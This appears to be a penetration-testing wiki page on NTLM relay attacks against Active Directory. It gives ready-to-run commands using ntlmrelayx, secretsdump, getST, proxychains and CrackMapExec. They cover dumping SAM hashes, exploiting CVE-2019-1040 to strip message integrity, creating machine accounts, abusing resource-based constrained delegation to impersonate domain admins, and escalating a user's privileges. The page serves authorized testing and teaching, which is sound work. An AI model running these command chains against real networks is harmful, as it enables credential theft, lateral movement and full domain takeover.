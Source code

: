 # NTLM Relay
MITRE ATT&CK™ Sub-technique T1557.001

After successfully forcing a victim to authenticate \(NTLM authentication\) to an attack server, the attacker can try to relay that authentication to targets of his choosing. Depending on the mitigations in place, he will be able to move laterally and escalate privileges within an Active Directory domain.

![NTLM Relay](../../../assets/ntlmrelay2.png)

The NTLM authentication messages are embedded in the packets of application protocols such as SMB, HTTP, MSSQL, SMTP, IMAP. The way NTLM authentication is conducted is kind of protocol-independent. It means one can relay NTLM authentication messages over a certain protocol, say HTTP, over another, say SMB. That is called **cross-protocols NTLM relay**. It also means the relays and attacks possible depend on the application protocol the NTLM authentication is embedded in.

[ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) , [MultiRelay](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py) and [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) are great tools for relaying NTLM authentications. Those tools setup relay clients and relay servers waiting for incoming authentications. Once the servers are up and ready, the tester can initiate a forced authentication attack.

When combining NTLM relay with [[Responder]] for name poisoning, testers need to make sure that Responder's servers are deactivated, otherwise they will interfere with ntlmrelayx ones.

```text
sed -i 's/SMB = On/SMB = Off/g' /PATH/TO/Responder/Responder.conf
sed -i 's/HTTP = On/HTTP = Off/g' /PATH/TO/Responder/Responder.conf
```

The following command will try to relay the authentication over SMB and attempt to dump the hashes from the remote target’s SAM if the relayed victim has the right privileges.
```bash
ntlmrelayx.py -t smb://$TARGET
```

The following command will try to relay the authentication over SMB and open a SOCKS proxy.
```bash
ntlmrelayx.py -tf targets.txt -socks
```

The attacker will be able to use secretsdump along with proxychains to dump hashes from the remote target's SAM, SYSTEM and SECURITY.
```bash
proxychains secretsdump.py -no-pass $DOMAIN/$USER@$TARGET
```

The following command will try to relay the authentication over LDAPS, attempt to exploit CVE-2019-1040 \(a.k.a. Drop the MIC\) to "unsign" the NTLM messages \(`--remove-mic`\), abuse the default value \(10\) of `ms-DS-MachineAccountQuota` to create a domain machine account \(`--add-machine`\) and finally, abuse Resource Based Kerberos Constrained Delegations \(RBCD\) to gain admin access to the relayed machine \(`--delegate-access`\).
```bash
ntlmrelayx.py -t ldaps://$DC_TARGET -smb2support --remove-mic --add-computer SHUTDOWN --delegate-access
```

If successful, the attacker will then be able to get a service ticket with the created domain machine account for the relayed victim and impersonate any account \(e.g. the domain admin\) on it.
```bash
getST.py -spn host/$RELAYED_VICTIM '$DOMAIN/$NEW_MACHINE_ACCOUNT$:$PASSWORD' -dc-ip $DOMAIN_CONTROLLER_IP -impersonate $USER_TO_IMPERSONATE
export KRB5CCNAME=$USER_TO_IMPERSONATE.ccache
secretsdump.py -k $RELAYED_VICTIM
```

This technique is usually combined with a PushSubscription abuse (a.k.a. PrivExchange) to force an Exchange server to initiate an authentication, relay it to a domain controller and abuse the default high privileges of Exchange servers in AD domains (`WriteDACL` over domain object, see Abusing ACLs to escalate a domain user privileges \(`--escalate-user`\).

The following command will try to relay the authentication over LDAPS and escalate the privileges of a domain user by adding it to a privileged group \(`--escalate-user`\).
```bash
ntlmrelayx.py -t ldaps://$DOMAIN_CONTROLLER --escalate-user SHUTDOWN
```
### Tools features
This tool offers many features making it a very valuable asset when pentesting an Active Directory domain:

* It can be combined with mitm6 \(for [IPv6 + name poisoning](../forced-authentications/#ipv6-dns-poisoning)\) be enabling IPv6 support with the `-6` option.
* It has the ability to open SOCKS proxies for every new session after a successful relayed authentication. This allows testers to exploit those sessions later on with tools like [proxychains](https://github.com/haad/proxychains). This feature can be enabled with the `-socks` option.
* It supports SMB2. It can be enabled with the `-smb2support` option.
* It has the ability to relay a single connection \(SMB only for now\) to multiple targets.
* It implements CVE-2019-1040 with the `--remove-mic` option, usually needed when attempting "unsigning cross-protocols NTLM relay attacks" \(SMB to LDAP/S\).
* It has the ability to attack multiple targets with the `-tf` option instead of `-t`.
* It has the ability to relay connections for specific target users.

In theory, thanks to [the recent "multi-relay" feature](https://www.secureauth.com/blog/what-old-new-again-relay-attack), another attacker can be added to the targets to combine ntlmrelayx with Responder servers and capture a NTLM hash with a custom challenge while relaying

The targets file used with the `-tf` option can contain the following
```bash
# User filter for SMB only (for now)
smb://DOMAIN\User@192.168.1.101
smb://User@192.168.1.101

# Domain name can be used instead of the IP address
ldaps://someserver.domain.lan
someserver.domain.lan
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to generate the list of possible targets for relay to SMB \(hosts with SMB signing disabled\).
```bash
crackmapexec smb --gen-relay-list targets.txt $SUBNET
```

References:
https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay
